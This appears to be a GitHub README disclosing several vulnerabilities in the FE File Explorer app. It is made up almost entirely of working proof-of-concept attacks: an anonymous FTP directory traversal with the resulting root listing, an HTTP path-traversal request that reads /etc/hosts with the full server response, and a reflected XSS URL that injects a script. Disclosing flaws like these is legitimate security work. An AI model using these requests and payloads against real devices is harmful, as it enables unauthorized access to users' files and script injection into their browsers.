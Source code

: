 # FE-File-Explorer
FE File Explorer Multi Vulnerabilities

Directory traversal:

connect to ftp as anynomous 

ftp> cd /../../../../../../../../../../../../../../../../
250 OK. Current directory is /../../../../../../../../../../../../../../../../
ftp> ls
200 PORT command successful.
150 Accepted data connection
total 10
drwxr-xr-x     0 root wheel        256 Jan 01 1970 usr
drwxr-xr-x     0 root wheel        128 Jan 01 1970 bin
drwxr-xr-x     0 root wheel        576 Jan 01 1970 sbin
drwxr-xr-x     0 root wheel        160 Jan 01 1970 System
drwxr-xr-x     0 root wheel        672 Jan 01 1970 Library
drwxr-xr-x     0 root wheel        224 Jan 01 1970 private
drwxr-xr-x     0 root wheel       1132 Jan 01 1970 dev
drwxr-xr-x     0 root admin       3968 Jan 01 1970 Applications
drwxr-xr-x     0 root admin         64 Jan 01 1970 Developer
drwxr-xr-x     0 root admin         64 Jan 01 1970 cores

local file inclusion (web) : 

GET /../../../../../../../../../../../../../../../../etc/hosts HTTP/1.1
Host: 192.168.1.178:8080
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (iPhone; CPU iPhone OS 6_0 like Mac OS X) AppleWebKit/536.26 (KHTML, like Gecko) Version/6.0 Mobile/10A5376e Safari/8536.25
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

---
HTTP/1.1 200 OK
Connection: Close
Server: GCDWebUploader
Content-Type: application/octet-stream
Last-Modified: Wed, 13 Jul 2022 10:35:46 GMT
Date: Tue, 06 Sep 2022 21:40:40 GMT
Content-Length: 213
Cache-Control: max-age=3600, public
Etag: 1152921500312311378/1657708546/0

##
# Host Database
#
# localhost is used to configure the loopback interface
# when the system is booting.  Do not change this entry.
##
127.0.0.1	localhost
255.255.255.255	broadcasthost
::1             localhost


reflected xss: 

http://192.168.1.178:8080/download?path=%3Cscript%3Ealert(%27rose%20taken%27);%3C/script%3E
